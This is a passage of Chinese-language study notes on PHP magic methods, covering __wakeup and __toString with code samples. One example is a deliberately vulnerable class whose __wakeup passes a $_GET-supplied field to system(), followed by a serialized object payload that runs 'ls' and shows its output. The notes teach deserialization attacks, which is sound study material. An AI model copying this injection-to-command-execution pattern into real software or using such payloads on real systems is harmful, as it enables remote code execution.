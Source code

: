 

**0x004**
__wakeup()：和`__sleep`一样 区别在与 `__sleep`在**序列化前**调用 而`__wakeup`是在**反序列化前**调用

```php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        $this->password = $this->username;
    }
}
$user_ser = 'O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}';
var_dump(unserialize($user_ser)); //反序列化后调用__wakeup函数 把username的a赋值给了paswword 所以var_dump的时候会["password":"User":private]=> string(1) "a" 而不是NULL

object(User)#1 (4) { ["username"]=> string(1) "a" ["nickname"]=> string(1) "b" ["password":"User":private]=> string(1) "a" ["order":"User":private]=> NULL }
```



__wakeup()例题

```php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        system($this->username);
    }
}
$user_ser = $_GET['benben'];
unserialize($user_ser);
很简单的__wakeup()函数 反序列化后调用system() 把GET赋值给username PAYLOAD:
O:4:"User":1:{s:8:"username";s:2:"ls";}

1.php 2.php 3.php 4.php
```



**0x005**
__toString()：表达方式错误导致魔术方法触发 **把对象当做字符串输出的时候会被触发**

```php
class User {
    var $benben = "this is test!!";
         public function __toString()
         {
             return '格式不对，输出不了!';
          }
}
$test = new User() ;	//实例化对象User给变量$test
print_r($test);		//print_r 或者 var_dump可以正常输出对象 
echo "<br />";	//换行
echo $test; 	//如果对象被当做string echo了 那就会调用__toString()

User Object ( [benben] => this is test!! ) //print_r($test);	
格式不对，输出不了!
```
